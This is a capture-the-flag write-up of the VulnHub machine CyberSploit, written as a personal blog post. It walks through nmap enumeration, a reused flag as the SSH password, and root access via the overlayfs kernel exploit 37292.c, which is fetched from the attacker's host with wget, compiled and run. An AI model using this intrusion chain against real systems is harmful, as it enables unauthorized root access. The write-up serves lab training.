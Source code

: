 ```yaml
---
title: Vulnhub - CyberSploit
description: My writeup on CyberSploit box.
categories:
 - vulnhub
tags: vulnhub base64 ssh binary kernel searchsploit
---
```


![](https://i2.wp.com/lifars.com/wp-content/uploads/2020/04/Top-10-most-dangerous-Cyber-Virus-scaled.jpg?fit=2560%2C1500&ssl=1)

Hi all, i really hate this type of boxes, but anyway let's pwn it!

You can find the machine there > [CyberSploit](https://www.vulnhub.com/entry/cybersploit-1,506/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.7
$ cybersploit nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-10 12:47 EEST
Nmap scan report for 192.168.1.7
Host is up (0.0013s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 01:1b:c8:fe:18:71:28:60:84:6a:9f:30:35:11:66:3d (DSA)
|   2048 d9:53:14:a3:7f:99:51:40:3f:49:ef:ef:7f:8b:35:de (RSA)
|_  256 ef:43:5b:d0:c0:eb:ee:3e:76:61:5c:6d:ce:15:fe:7e (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hello Pentester!
MAC Address: 00:0C:29:3A:64:E3 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

If we check page source code we can see this comment: `<!-------------username:itsskv--------------------->` Probably a system user. Then i always check `/robots.txt` there, a base64 string exists let's decode it.

```
$ echo R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9 | base64 -d
Good Work !
Flag1: cybersploit{youtube.com/c/cybersploit}
```

## Shell as itsskv

After this i tried ton of stuff, brute force with custom wordlist with `cewl`, custom wordlist with `john`, brute force with `rockyou.txt` nothing. Then i had a crazy idea to try `cybersploit{youtube.com/c/cybersploit}` as password and it worked. LOL

```
$ ssh itsskv@$ip
itsskv@192.168.1.7's password: 
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

332 packages can be updated.
273 updates are security updates.

New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Your Hardware Enablement Stack (HWE) is supported until April 2017.

Last login: Fri Jul 10 15:11:03 2020 from 0xatom.zte.com.cn
itsskv@cybersploit-CTF:~$ 
```

The second flag:

```
itsskv@cybersploit-CTF:~$ cat flag2.txt | perl -lape '$_=pack"(B8)*",@F'
good work !
flag2: cybersploit{https:t.me/cybersploit1}
```

## Exploiting old kernel version

Now privesc to root, is kernel exploit. Let's check kernel version:

```
itsskv@cybersploit-CTF:~$ uname -a
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
itsskv@cybersploit-CTF:~$ uname -r
3.13.0-32-generic
```

Seems really old, let's search for possible exploits.

```
$ searchsploit 3.13.0
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                         |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation                                                   | linux/local/37292.c
```

Seems good, let's mirror it and transfer it to target box.

```
$ searchsploit -m linux/local/37292.c
  Exploit: Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/37292
     Path: /usr/share/exploitdb/exploits/linux/local/37292.c
File Type: C source, ASCII text, with very long lines, with CRLF line terminators

Copied to: /root/Documents/vulnhub/cybersploit/37292.c

$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now let's wget it to target box and compile it.

```
itsskv@cybersploit-CTF:~$ cd /tmp
itsskv@cybersploit-CTF:/tmp$ wget -q 192.168.1.16/37292.c
itsskv@cybersploit-CTF:/tmp$ gcc 37292.c -o r00t; chmod +x r00t
itsskv@cybersploit-CTF:/tmp$ ./r00t
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root),1001(itsskv)
```

Let's read the final flag:

```
# cat finalflag.txt
  ______ ____    ____ .______    _______ .______          _______..______    __        ______    __  .___________.
 /      |\   \  /   / |   _  \  |   ____||   _  \        /       ||   _  \  |  |      /  __  \  |  | |           |
|  ,----' \   \/   /  |  |_)  | |  |__   |  |_)  |      |   (----`|  |_)  | |  |     |  |  |  | |  | `---|  |----`
|  |       \_    _/   |   _  <  |   __|  |      /        \   \    |   ___/  |  |     |  |  |  | |  |     |  |     
|  `----.    |  |     |  |_)  | |  |____ |  |\  \----.----)   |   |  |      |  `----.|  `--'  | |  |     |  |     
 \______|    |__|     |______/  |_______|| _| `._____|_______/    | _|      |_______| \______/  |__|     |__|     
                                                                                                                  

   _   _   _   _   _   _   _   _   _   _   _   _   _   _   _  
  / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ 
 ( c | o | n | g | r | a | t | u | l | a | t | i | o | n | s )
  \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ 

flag3: cybersploit{Z3X21CW42C4 many many congratulations !}

if you like it share with me https://twitter.com/cybersploit1.

Thanks !
```

Big meme box.
